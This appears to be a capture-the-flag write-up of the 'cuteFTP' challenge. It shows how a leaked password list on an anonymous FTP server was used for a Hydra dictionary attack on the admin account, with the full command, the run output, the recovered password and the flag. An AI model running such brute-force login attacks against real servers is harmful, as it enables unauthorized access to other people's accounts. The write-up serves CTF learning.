 # cuteFTP (Misc - 120 pts)

### [~$ cd ..](../)

Author: [alect096](https://alect096.github.io/CTFs/CSCBE2019/finals_saturday/cuteFTP/)

> A chaotic admin set up an FTP challenge but might have misplaced some files.
> 63.35.125.97:21

We firstly logged in as anonymous without password. We were able to access to some files and folders.

In those files we found a lot of pictures of cats, [lists of words](kublaiBADPASSWORDS.list) and a [list of users](users.list).
On the other hand we had a folder with subfolders representing the users. In the admin folder we found a [README.txt](README.txt), here is the content:

> Please don't abuse this server! This FTP server is used to share my favourite cats (there's only one thing I like more than cats). Feel free to browse through them and download your favourites. If you want to add your own cats shoot me a mail (darthcatlover9001@sharklasers.com) and I'll give you a user account. The cats you add will then appear in the /users/username/public folder.
>
> If you're into lists instead of cats you might also like my other FTP server. I sometimes get confused so if I misplaced a list on this server please let me know.
>
> ~JarJar B. McPaws~

And a [thanksto.txt](thanksto.tx) containing:

> Thanks to:  
> -Maxogden (for helping me start my collection)  
> -Charlottd  
> -Charlottf  
> -Dennis  

Thanks to the list, we thought about launching a dictionary attack on the FTP service to try to log in with the admin account.

We decided to use Hydra to perform this action.

> hydra 52.17.165.245 ftp -l admin -P /root/Desktop/kublaiBADPASSWORDS.list  
> 	Hydra v8.6 (c) 2017 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.  
>
>	Hydra (http://www.thc.org/thc-hydra) starting at 2019-03-30 11:29:09
> 	
>	[DATA] max 16 tasks per 1 server, overall 16 tasks, 666 login tries (l:1/p:666), ~42 tries per task  
>	[DATA] attacking ftp://52.17.165.245:21/  
>	[STATUS] 96.00 tries/min, 96 tries in 00:01h, 570 to do in 00:06h, 16 active  
>	[STATUS] 85.67 tries/min, 257 tries in 00:03h, 409 to do in 00:05h, 16 active  
>		[21][ftp] host: 52.17.165.245   login: admin   password: cookies  
>	1 of 1 target successfully completed, 1 valid password found  
>	[WARNING] Writing restore file because 2 final worker threads did not complete until end.
>	[ERROR] 2 targets did not resolve or could not be connected  
>	[ERROR] 16 targets did not complete  
>	Hydra (http://www.thc.org/thc-hydra) finished at 2019-03-30 11:36:07

We are now able to log in with the admin account and the password `cookies`.

On this account we found a file in the following path [/admin/flag.txt](flag.txt):

**CSC{I'm_a_flag-da-be-die-dabe-flag!}**
